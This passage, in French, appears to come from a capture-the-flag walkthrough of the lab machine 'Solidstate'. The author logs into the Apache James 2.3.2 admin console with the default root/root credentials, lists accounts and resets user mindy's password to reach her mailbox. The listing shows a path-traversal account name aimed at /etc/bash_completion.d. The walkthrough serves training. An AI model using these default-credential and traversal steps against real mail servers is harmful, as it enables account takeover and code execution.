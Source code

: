 On peut alors lister les users, et changer leur mot de passe permettant l'accès à leur boite mail. Ici, on change le mot de passe de l'utilisateur **mindy**, password : **mindy**.
```bash
telnet 10.10.10.51 4555
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password

Login id:
root

Password:
root
Welcome root. HELP for a list of commands

HELP
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection

listusers
Existing accounts 6
user: james
user: ../../../../../../../../etc/bash_completion.d
user: thomas
user: john
user: mindy
user: mailadmin

setpassword mindy mindy
Password for mindy reset

quit
Bye
Connection closed by foreign host.
```
